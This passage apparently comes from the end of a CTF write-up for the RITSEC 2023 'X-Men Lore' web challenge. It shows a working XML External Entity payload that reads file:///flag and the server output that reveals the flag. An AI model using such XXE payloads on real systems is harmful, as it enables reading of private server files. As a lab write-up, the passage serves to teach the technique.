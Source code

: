 Hmm... Nothing weird...

**After some "guessing", I found that the flag is in `/flag`:**
```py
    payload = b'''<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///flag"> ]><input><xmen>&xxe;</xmen></input>'''
```

```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/X-Men-Lore)-[2023.04.01|15:04:31(HKT)]
└> python3 encode_xml.py
<!DOCTYPE html>
<head>
  <title>X-Men Lore</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<a href="/"><button>Home</button></a>
<body>
  
    
      <h1>RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
</h1>
      <img src="/static/RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
.jpg" alt="RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
" />
      <br/>
      <iframe src="/static/RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
.html" title="RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
"></iframe>
    
  
</body>
```

Nice!

- **Flag: `RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}`**

## Conclusion

What we've learned:

1. XML External Entity (XXE) Injection
